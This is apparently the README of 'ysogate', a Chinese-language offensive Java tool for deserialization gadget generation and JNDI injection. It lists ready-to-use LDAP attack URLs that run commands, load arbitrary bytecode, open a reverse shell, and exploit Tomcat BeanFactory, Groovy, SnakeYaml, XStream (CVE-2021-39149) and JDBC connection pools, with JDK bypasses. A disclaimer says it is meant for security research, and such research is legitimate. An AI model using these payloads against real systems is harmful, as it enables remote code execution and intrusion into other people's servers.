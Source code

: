 # ysogate

ysogate是一个java综合利用工具，支持JNDI注入相关利用，包含多种高版本jdk绕过方式，且支持片段化gadget生成和组合。

- 生成多种Java反序列化gadget payload，
- 支持JNDI/LDAP/RMI/JRMP等多种利用方式
- 灵活的命令行界面，支持多种操作模式
- 可扩展的架构，便于添加新的gadget和攻击向量
- 支持多种高版本jdk绕过方式

## Usage

```bash
[root]#~  Payload Mode: java -jar ysogate-[version]-all.jar -m payload [PAYLOAD OPTIONS]
[root]#~  JNDI Mode:    java -jar ysogate-[version]-all.jar -m jndi [JNDI OPTIONS]
```
## JNDI Mode

### trustSerialData 绕过

在jdk20+版本中`com.sun.jndi.ldap.object.trustSerialData`属性默认为`false`

### codebase 注入

ldap和rmi通用，通过 JNDI Reference 指定codebase，远程加载ObjectFactory，需要trustURLCodebase=true，

```
# 参数支持urlsafe base64
ldap://127.0.0.1:1389/Basic/xxxxxxx/Y2FsYw==

# 执行命令
ldap://127.0.0.1:1389/Basic/Command/calc

# Dnslog
ldap://127.0.0.1:1389/Basic/DNSLog/xxx.dnslog.cn

# 加载自定义字节码
ldap://127.0.0.1:1389/Basic/Custom/data:yv66vxxxxxxxxxxxxx

# 从/tmp/a.class加载自定义字节码
ldap://127.0.0.1:1389/Basic/Custom/file:L3RtcC9hLmNsYXNz

# 加载内存马(todo)
ldap://127.0.0.1:1389/Basic/Custom/mem:Tomcat

# 原生反弹 Shell (支持 Windows)
ldap://127.0.0.1:1389/Basic/ReverseShell/127.0.0.1/4444
```

### 基于 BeanFactory

BeanFactory这个类在tomcat8+或者SpringBoot 1.2.x+存在

且要求版本小于9.0.63，或小于8.5.79

**Tomcat ELProcessor**

利用javax.el.ELProcessor#eval

```
# 使用方式同Basic

# 使用el调用ScriptEngineManager来加载字节码(nashorn在JDK15后被移除)
ldap://127.0.0.1:1389/ELProcessor/Command/calc
ldap://127.0.0.1:1389/ELProcessor/Custom/data:yv66vxxxxxxxxxxxxx

# jdk9以上可以用el调用JShell来加载字节码
ldap://127.0.0.1:1389/EL2JShell/Command/calc
```

**GroovyShell & GroovyClassLoader**

利用groovy.lang.GroovyShell#evaluate和groovy.lang.GroovyClassLoader#parseClass(java.lang.String)

```**SnakeYaml**
# 使用方式同Basic
ldap://127.0.0.1:1389/GroovyClassLoader/Command/calc
ldap://127.0.0.1:1389/GroovyShell/Command/calc
```

**SnakeYaml**

利用org.yaml.snakeyaml.Yaml#load(java.lang.String)

```
# 使用方式同Basic
ldap://127.0.0.1:1389/SnakeYaml/Command/calc
```

**XStream**

利用com.thoughtworks.xstream.XStream#fromXML(java.net.URL)

可以打CVE-2021-39149，要求XStream < 1.4.18

```
# 暂时只写了执行命令
ldap://127.0.0.1:1389/XStream/calc
```

**MLet**

通过 MLet 探测 classpath 中存在的类

```
ldap://127.0.0.1:1389/MLet/com.example.TestClass
```

如果 `com.example.TestClass` 这个类存在, 则 HTTP 服务器会接收到一个 `/com/example/TestClass_exists.class` 请求

**NativeLibLoader**

利用com.sun.glass.utils.NativeLibLoader#loadLibrary加载目标服务器上的动态链接库，适用于能够写文件的场景

写入dll/so/dylib文件，例如/tmp/evil.so，使用时把路径去掉后缀， 即/tmp/evil

```
ldap://127.0.0.1:1389/NativeLibLoader/L3RtcC9ldmls
```

### 反序列化





### JDBC RCE

支持以下数据库连接池的 JDBC RCE

- Commons DBCP
- Tomcat DBCP
- Tomcat JDBC
- Alibaba Druid
- HikariCP
- C3P0

#### 

## 扩展攻击

#### 

## Todo
- [x] 基础的反序列化生成payload
- [x] 增加JNDI/LDAP/RMI/JRMP等利用方式
- [ ] 完善第三方库的gadget
- [ ] 在加载字节码方面增加扩展攻击如回显，内存马，代理等
- [ ] 防护绕过方面的补充，增加OverlongUTF8/脏数据等绕过

## 免责声明
本项目仅面向安全研究与学习，禁止任何非法用途

如您在使用本项目的过程中存在任何非法行为，您需自行承担相应后果

除非您已充分阅读、完全理解并接受本协议，否则，请您不要使用本项目

## Reference

 - https://github.com/frohoff/ysoserial
 - https://github.com/X1r0z/JNDIMap
 - https://tttang.com/archive/1405/